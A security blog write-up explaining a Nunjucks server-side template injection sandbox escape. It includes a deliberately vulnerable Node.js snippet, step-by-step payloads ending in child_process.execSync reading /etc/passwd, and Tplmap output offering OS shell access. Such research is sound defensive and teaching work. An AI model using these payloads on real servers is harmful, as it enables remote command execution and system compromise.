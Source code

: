 ```yaml
---
comments: true
date: 2016-08-02 12:58:30
layout: post
slug: 2016-08-02-sandbox-break-out-nunjucks-template-engine
title: Sandbox Breakout - A view On The Nunjucks Template Engine
categories:
- Security
- Vulnerabilities
- Web Apps
tags:
- CVE-2014-5073
- advisory
- vmturbo
- pentesting
- security
- vulnerability
- rce
- cgi
- command execution 
---
```


Introduction
------------

This write-up describes a sandbox escape technique on Nunjucks template engine implemented by [Tplmap](https://github.com/epinna/tplmap), a tool to exploit Server-Side Template Injection vulnerabilities (SSTI) and achieve remote command execution on the operating system. Thanks to [Andrea](https://github.com/cyrus-and) who has worked with me on this analysis.

Nunjucks
--------

[Nunjucks](https://mozilla.github.io/nunjucks/) is a template engine for by Jinja2 used to develop web applications on Node.js web frameworks as [Express](http://expressjs.com/) or [Connect](https://github.com/senchalabs/connect#readme). The snippet from a Connect application serves a web page (`http://localhost:15004/page?name=John`) which suffers from Server-Side Template Injection vulnerability.

```javascript
app.use('/page', function(req, res){
  if(req.url) {
    var url_parts = url.parse(req.url, true);
    var name = url_parts.query.name;
    
    // Include user-input in the template
    var template = 'Hello ' + name + '!'; 
    
    rendered = nunjucks.renderString(
      str = template
    );
    res.end(rendered);
  }
});
```


{% raw %}

The user controllable `name` GET parameter is concatenated to the template string instead of being passed as `context` argument, introducing the SSTI vulnerability. The vulnerable parameter can be detected injecting a basic operation which is evaluated at rendering time.

```bash
$ curl -g 'http://localhost:15004/page?name={{7*7}}'
Hello 49!
$
```

The vulnerability does not affect Nunjucks itself, but is introduced when the user’s input is directly concatenated to a template.

Sandbox escape
--------------

As many other template engines, Nunjucks template code runs in a sandboxed environment. Any global object is stripped out from the environment, to limit the surface which could be used to break out of the sandbox and execute arbitrary JavaScript. You can use Tplmap `--tpl-shell` option to inspect the sandbox surface.

Calling the global object `console` from within the template raises an undefined exception.

```javascript
{{console.log(1)}}

// Template render error: (unknown path)
//  Error: Unable to call `console["log"]`, which is undefined or falsey
```

Luckily for the attacker the documentation describes three utility functions [range, cycler, and joiner](https://mozilla.github.io/nunjucks/templating.html#global-functions) which are the only callables from within the template.

The `constructor` property of any function is the [Function constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) which allows to create a new function starting from the body string. 

```javascript
{{range.constructor("console.log(123)")()}}
// 123
```

The code above is correctly evaluated. The operating system access instead is not straightforward since `require()` cannot be used to import standard modules without triggering an exception.

```javascript
{{range.constructor("return require('fs')")()}}

//Template render error: (unknown path)
//  ReferenceError: require is not defined
```

The missing `require`constraint can be bypassed using `global.process.mainModule.require`. In the snippet below, the module `fs` is imported and printed.

```javascript
{{range.constructor("return global.process.mainModule.require('fs')")()}}

[object Object]
```

Finally, the exploit to access the underlying operating system can be finalised executing `tail /etc/passwd` via the `child_process.execSync()` method.

```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Tplmap integration
------------------

The sandbox escape technique has been integrated in Tplmap Nunjucks plugin to compromise the target in a fully automated way.

```bash
$ ./tplmap.py -u http://localhost:15004/page?name=* --engine Nunjucks --os-shell
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'name'
[+] Nunjucks plugin is testing rendering with tag '{{*}}'
[+] Nunjucks plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  Engine: Nunjucks
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Run commands on the operating system

linux $ tail /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

[Tplmap](https://github.com/epinna/tplmap) support of new template engines can be easily extended writing plugins. All contributions are greatly appreciated, both code or ideas of sandbox escapes of new template engines. Submit your sandbox break-out idea or code via Github issues and pull request.

{% endraw %}
